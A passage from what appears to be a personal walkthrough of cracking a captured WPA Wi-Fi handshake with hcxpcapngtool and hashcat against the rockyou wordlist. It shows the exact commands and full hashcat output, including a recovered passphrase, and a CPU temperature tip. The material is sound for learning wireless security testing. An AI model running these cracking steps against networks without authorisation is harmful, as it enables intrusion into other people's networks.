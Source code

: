 *  **KEY FOUND! [ 5101997. ]**
*  **14 seconds.**

#### Hashcat

* This option tends to be faster.
* **Just watch out for the CPU's temperature**.  You do not want it to stay for a long time above 90 C. There are other tools that you can use to watch the temperature, but I did not want to download it, so ended up using:

```bash
# Linux
watch -n 5 cat /sys/class/thermal/thermal_zone*/temp
```

* To do this we first need to convert the ".cap" file into a Hashcat compatible file.

```bash
➜  02 hcxpcapngtool CasaSH-Capture-01.cap -o CasaSH-Capture-01.HashCompatible
```


```
➜  02 hashcat -a 0 -m 22000 CasaSH-Capture-01.HashCompatible ../wordlists/rockyou.txt 
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 7 3700U with Radeon Vega Mobile Gfx, 7907/15879 MB (2048 MB allocatable), 8MCU

Minimum password length supported by kernel: 8
Maximum password length supported by kernel: 63

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache built:
* Filename..: ../wordlists/rockyou.txt
* Passwords.: 14344393
* Bytes.....: 139921519
* Keyspace..: 14344386
* Runtime...: 0 secs

1ddb64255459c8af9453f5f9b450d95f:6413ab1b92ac:36bae440e8e3:Casa SH:5101997.
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: CasaSH-Capture-01.HashCompatible
Time.Started.....: Wed Nov  6 08:30:13 2024 (6 secs)
Time.Estimated...: Wed Nov  6 08:30:19 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../wordlists/rockyou.txt)
```